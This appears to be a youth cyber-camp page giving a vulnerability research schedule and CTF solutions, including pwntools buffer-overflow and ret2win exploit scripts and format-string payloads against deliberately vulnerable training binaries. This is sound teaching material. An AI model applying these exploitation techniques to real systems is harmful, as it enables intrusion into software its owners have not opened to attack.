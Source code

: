 # Day 5 Schedule: Vulnerability Research

| Day | Time                  | Title                                                                 | Instructor |
|-----|------------------------|-----------------------------------------------------------------------|------------------|
| 5   | 09:00-09:15 | Arrival | |
| 5   | 9:30-10:30 | Guest Speaker: Jordan Wiens, Binary Ninja                            |       |
| 5   | 10:30-10:45 | Snack | |
| 5   | 10:45-11:30 | Lesson: Stack Buffer Overflows | TJ     |
| 5   | 11:30-12:00 | Stack Overflow Challenges on spacecadets.ctfd.io | |
| 5   | 12:00-13:00 | Lunch | |
| 5   | 13:00-13:45 | Lesson: Format String Vulnerabilities| TJ       |
| 5   | 13:45-14:15 | Format String Challengeson spacecadets.ctfd.io | |
| 5   | 14:15-14:45 | Activity:  Buzz Lightyear Pwn                         |         |
| 5   | 14:45-15:15 | Awards Cewremony | | 

# Resources

- [Smashing the Stack For Fun and Profit](http://phrack.org/issues/49/14.html)
- [PwnTools](https://docs.pwntools.com/en/stable/)

# Challenge Solutions

## Buffer Overflows

**ranger-1:** change into the ``/root/gencyber/vr/ranger-1`` directory. There is a vulnerable program that suffers a buffer overflow in there named ``ranger-1.c``. Take a look and see if you can discover the vulnerability.  Then run the command ``python3 ranger-1.py`` to connect to a network server that is running a copy of the program. If you succeed in exploiting the vulnerability, it will display the flag. 

```
Welcome Space Cadet, I bet you can't overflow var1 >>> $ CCCCCCCC

Excellent Work Cadet, heres your flag >>> flag{apollo_landing_1969}[*] Got EOF while reading in interactive
```

**ranger-2:** change into the ``/root/gencyber/vr/ranger-2`` directory. There is a vulnerable program that suffers a buffer overflow in there named ``ranger-2.c``. Take a look and see if you can discover the vulnerability.  Then run the command ``python3 ranger-2.py`` to connect to a network server that is running a copy of the program. If you succeed in exploiting the vulnerability, it will display the flag. 

```
Welcome Space Cadet, try to crash my very BBBBad program >>> $ BBBBBBBBBBBBBBBBBBBBBB
flag{mars_rover_2020}

```

**ranger-3:** change into the ``/root/gencyber/vr/ranger-3`` directory. There is a vulnerable program that suffers a buffer overflow in there named ``ranger-3.c``. There is also a compiled version of the program named ``ranger-3.bin``. Take a look and see if you can discover the vulnerability.  Then run the command ``python3 ranger-3.py`` to connect to a network server that is running a copy of the program. You will need to modify this program, slightly. If you succeed in exploiting the vulnerability, it will display the flag. 

solution: 
```python
from pwn import *

e = ELF('./ranger-3.bin')
r = ROP(e)
ret_gadget = r.find_gadget(['ret'])[0]

p=remote("spacecadets-ranger-3.chals.io", 443, ssl=True, sni="spacecadets-ranger-3.chals.io")

buffer = p64(ret_gadget)*19
buffer += p64(e.sym['win'])

p.sendline(buffer)

p.interactive()
```

```
The mission of the Space Cadets is to win() at all costs >>> flag{voyager_probes_1977}[
```

## Format String Vulnerabilities

**cadet-1:** change into the ``/root/gencyber/vr/cadet-1`` directory. There is a vulnerable program that suffers a buffer overflow in there named ``cadet-1.c``. Take a look and see if you can discover the vulnerability.  Then run the command ``python3 cadet-1.py`` to connect to a network server that is running a copy of the program. If you succeed in exploiting the vulnerability, it will display the flag. 

```
Welcome Space Cadet, what is your name >>> $ %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
Greetings, (nil).0xb.0x7f557b1e0a7a.0xffffffff.0xffffffff.0x72616d7b67616c66.0x7d7265766f725f73.0x7fffe7569000.0x7fffe7569060.0x7fffe75690e0.0x4.0x4[*] Got
unhex 72616d7b67616c66 | rev
flag{mar#

unhex 7d7265766f725f73 | rev
s_rover}#
```

**cadet-2:** change into the ``/root/gencyber/vr/cadet-2`` directory. There is a vulnerable program that suffers a buffer overflow in there named ``cadet-2.c``. Take a look and see if you can discover the vulnerability.  Then run the command ``python3 cadet-2.py`` to connect to a network server that is running a copy of the program. If you succeed in exploiting the vulnerability, it will display the flag. 

```
<<< Welcome Space Cadet, enjoy my guessing game. You get three tries.
Guess the number I am thinking of >>> $ %d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.%d.
<<< Your guess: 11565616.0.0.16.0.623797285.778315054.1680158308.623797285.778315054.1680158308.623797285.778315054.1680158308.11566336.11566144.1679213473.11566160.1677222208.11566192.1679213838.11566488.11566488.11566352. is incorrect
Guess the number I am thinking of >>> $ %19$d
<<< Your guess: 1677222208 is incorrect
Guess the number I am thinking of >>> $ 1677222208
flag{new_horizons_2006}
```

# Activity: PwnSchool Exercise

**flag 1:** change into the ``/root/gencyber/vr/lightyear`` directory and run the command ``python3 pwnschool.py ``. It will connect you to a server that is running a vulnerable binary. There are four steps to exploiting this binary and the program will walk you through it. See if you can finish the first step and enter the flag. 

pwnschool.py 

```
<<< Enter data: (I have given you a capacity of 16 characters) >>> $ AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
-------------------------------------------------------------------------------
<<< Good job. You broke it, in a good way!
<<< Heres flag1: flag{2_infinity}
```

**flag 2:** complete the next step in the fight against Zurg and earn the next flag.

```
Enter up to 16 bytes of data >>> $ %26$p
<<<< You said 0x7ffcb40d2820
-------------------------------------------------------------------------------
<<< Nice job! You leaked a PIE Address for the function we are in now: 0x55f1af76f710.
<<< The base address of this program is = 0x55f1af76f710 - 0x1710 = 0x55f1af76e000
<<< If you have a leak, you can find a base address
<<< by subtracting an offset of that function from your leak.
<<< A base address can be used to find where a function exists in memory
<<< if we add the offset of a function to a base address, the sum
<<< will be that functions exact value in memory
<<< Heres flag2: flag{star_command}
On to the next challenge
```

**flag 3:** almost there, see if you can drop the next flag by adding the base to the offset

```
<<< Welcome to step 3: calculating a PIE address
<<< Zurg is beginning to take note of you, and he's shaking in his boots!
<<< Since you've discovered the base, here's the offset for win(): 0x231a
<<< Can you use this offset, and the base from before to calculate the address of win?
Enter the PIE address of the win() function >>> $ 0x563c0cc4f31a
```

**flag 4:** drop the final flag by running the ``ret2win`` script

```python
from pwn import *

p = remote("spacecadets-pwnschool.chals.io", 443, ssl=True, sni="spacecadets-pwnschool.chals.io")
p.recvuntil(b'>>> ')
p.sendline(b'1')
p.recvuntil(b'>>> ')

# Overflowing the buffer in Step 1
p.sendline(cyclic(17))
p.recvuntil(b'>>> ')
p.sendline(b'2')
p.recvuntil(b'>>> ')

# Leaking the PIE address in Step 2
p.sendline(b'%26$p')
p.recvuntil(b' = ')
p.recvuntil(b' = ')
leak = int(p.recvline().strip(), 16)
p.recvuntil(b'>>> ')
p.sendline(b'3')
p.recvuntil(b'win(): ')
win_off = int(p.recvline().strip(), 16)

# Calculating win address in Step 3
win = leak + win_off
# Sometimes we need returns to line everything up
ret = win - 1
print(hex(win))
p.recvuntil(b'>>> ')
p.sendline(hex(win))
p.recvuntil(b'>>> ')
p.sendline(b'4')
p.recvuntil(b'>>> ')

# Sending a bunch of returns to line up and overflow, then the address of win.
p.sendline(p64(ret) * 6 + p64(win))

p.interactive()
```

